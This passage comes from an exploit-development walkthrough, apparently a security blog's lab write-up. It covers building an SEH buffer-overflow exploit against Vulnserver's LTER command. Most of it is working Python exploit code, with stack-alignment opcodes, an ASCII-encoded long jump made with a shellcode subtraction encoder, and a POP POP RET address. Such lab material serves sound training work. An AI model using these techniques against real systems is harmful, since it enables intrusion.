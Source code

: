 ``` python
    b'C' * (4000 - 3554 - 4)
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
```

And check it:

<div class="imgblock">

![Align ESP](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331201/blog/vulnserver-lter-seh/align-esp3_swtzxo.gif)

</div>

Great\! We can now encode our long backward jump. This time I will use a
tool called [Automatic ASCII Shellcode Subtraction
Encoder](https://github.com/andresroldan/Automatic-ASCII-Shellcode-Subtraction-Encoder).
Elias Augusto created it and I added some convenient improvements.

Let’s get our encoded jump:

``` console
$ python3 encoder.py -m -p -s 'E92DF2FFFF' -v LONG_JUMP
...
Shellcode length: 52
Shellcode Output:

LONG_JUMP  = b'\x25\x50\x50\x4a\x50\x25\x2a\x2a\x30\x2a\x2d\x62\x21\x22\x23\x2d'
LONG_JUMP += b'\x38\x25\x2b\x28\x2d\x67\x28\x22\x24\x50\x25\x50\x50\x4a\x50\x25'
LONG_JUMP += b'\x2a\x2a\x30\x2a\x2d\x42\x7f\x29\x73\x2d\x7f\x25\x69\x2d\x2d\x56'
LONG_JUMP += b'\x2d\x7b\x5f\x50'
```

Great, let’s add that `LONG_JUMP` variable to our exploit:

``` python
import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

LONG_JUMP  = b'\x25\x50\x50\x4a\x50\x25\x2a\x2a\x30\x2a\x2d\x62\x21\x22\x23\x2d'
LONG_JUMP += b'\x38\x25\x2b\x28\x2d\x67\x28\x22\x24\x50\x25\x50\x50\x4a\x50\x25'
LONG_JUMP += b'\x2a\x2a\x30\x2a\x2d\x42\x7f\x29\x73\x2d\x7f\x25\x69\x2d\x2d\x56'
LONG_JUMP += b'\x2d\x7b\x5f\x50'

PAYLOAD = (
    b'LTER .' +
    b'A' * (3554 - 4 - 79) +
    # Align stack for our long jump
    b'\x54' +           # PUSH ESP
    b'\x58' +           # POP EAX
    b'\x2c\x30' +       # SUB AL,30
    b'\x50' +           # PUSH EAX
    b'\x5c' +           # POP ESP
    LONG_JUMP +
    b'A' * (79 - 6 - len(LONG_JUMP)) +   # Fill the rest of our buffer with A
    # JNZ SHORT +0x10: Will jump if ZF is 1
    b'\x75\x08' +
    # JZ SHORT +0x6: If the previous jump didn't happen (ZF is 0), jump!
    b'\x74\x06' +
    # 6250172B    5F                          POP EDI
    # 6250172C    5D                          POP EBP
    # 6250172D    C3                          RETN
    struct.pack('<L', 0x6250172B) +
```